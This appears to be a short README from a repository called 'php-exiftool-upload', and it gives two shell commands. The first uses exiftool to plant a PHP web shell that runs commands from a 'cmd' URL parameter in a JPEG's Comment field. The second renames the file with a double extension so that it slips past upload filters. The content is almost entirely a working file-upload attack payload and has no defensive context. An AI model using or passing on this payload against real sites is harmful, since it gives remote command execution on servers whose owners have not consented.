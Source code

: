 # php-exiftool-upload

```
In image :

exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg

mv shell.jpg shell.php.jpg
```
